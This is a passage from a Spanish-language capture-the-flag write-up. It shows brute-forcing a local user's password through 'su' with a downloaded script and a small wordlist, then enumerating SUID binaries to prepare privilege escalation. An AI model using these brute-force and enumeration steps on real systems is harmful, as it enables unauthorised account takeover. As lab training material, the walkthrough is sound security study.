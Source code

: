 Podemos deducir que alguna de esas palabras puede ser la contraseña del usuario `johntheripper`, por lo que nos descargaremos un script para hacer fuerza bruta a un usuario con `su`:

URL = [Download suBrutefoce.sh](https://github.com/D1se0/suBruteforce/blob/main/suBruteforceBash/suBruteforce.sh)

Ahora cogemos esas palabras y las metemos en un archivo `.txt`:

> dic.txt

```
test123test333
333300trest
trest00aa20_
_23t_32_g4
testnefg321ttt
trestre2612t33s
11tv1e0st!!!!!
!!10t3bst??
tset0tevst!
ts!tse?test01
_0test!X!test0
0143_t3s5t53_0
```

Y ahora utilizaremos la herramienta de la siguiente forma:

```shell
bash suBruteforce.sh johntheripper dic.txt
```

Info:

```
[+] Contraseña encontrada para el usuario johntheripper:tset0tevst!
```

Por lo que vemos esa es la contraseña, por lo que haremos lo siguiente:

```shell
su johntheripper
```

Y metemos la contraseña `tset0tevst!`, por lo que ya seremos dicho usuario.

## Escalate Privileges

Si buscamos permisos `SUID` vemos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2626066     16 -rwsr-xr-x   1 root     root        16064 Sep  6 14:18 /home/johntheripper/show_files
  2621600   1384 -rwsr-xr-x   1 root     root      1414168 Jul  9 08:53 /usr/sbin/exim4
  2490617     52 -rwsr-xr-x   1 root     root        52880 Mar 23  2023 /usr/bin/chsh
  2490741     48 -rwsr-xr-x   1 root     root        48896 Mar 23  2023 /usr/bin/newgrp
  2490752     68 -rwsr-xr-x   1 root     root        68248 Mar 23  2023 /usr/bin/passwd
  2490804     72 -rwsr-xr-x   1 root     root        72000 Mar 28  2024 /usr/bin/su
  2490678     88 -rwsr-xr-x   1 root     root        88496 Mar 23  2023 /usr/bin/gpasswd
  2490736     60 -rwsr-xr-x   1 root     root        59704 Mar 28  2024 /usr/bin/mount
  2490828     36 -rwsr-xr-x   1 root     root        35128 Mar 28  2024 /usr/bin/umount
  2490611     64 -rwsr-xr-x   1 root     root        62672 Mar 23  2023 /usr/bin/chfn
```

